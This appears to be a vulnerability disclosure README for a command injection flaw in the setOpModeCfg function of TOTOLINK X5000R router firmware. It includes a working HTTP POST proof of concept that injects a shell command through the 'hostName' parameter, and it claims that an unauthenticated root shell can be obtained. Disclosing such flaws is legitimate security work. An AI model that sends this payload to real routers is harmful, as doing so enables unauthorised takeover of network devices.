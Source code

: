 # Firmware Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/218/ids/36.html
- Version ：TOTOLINK X5000R V9.1.0u.6118_B20201102、TOTOLINK X5000R V9.1.0u.6369_B20230113

## Product Information

![](./img/1.png)

## Analyse

TOTOLINK X5000R (V9.1.0u.6118_B20201102)was found to contain a command insertion vulnerability in setOpModeCfg.This vulnerability allows an attacker to execute arbitrary commands through the "hostName" parameter.

![](./img/2.png)

Be careful to set the value of the parameter "proto" to a number other than 3, 4, or 6 when sending a packet, as only the "default" value can trigger our vulnerability.

![](./img/4.png)

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.3.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 90
Origin: http://192.168.3.2
Connection: close
Referer: http://192.168.3.2/advance/time.html?time=1679126798322
Cookie: SESSION_ID=2:1679122532:2


{
"proto":"1",
"hostName":"';echo yichen > /tmp/1.txt;' ",
"topicurl":"setOpModeCfg"
}
```

![](./img/3.png)

Finally, you can write exp to get a stable root shell without authorization.









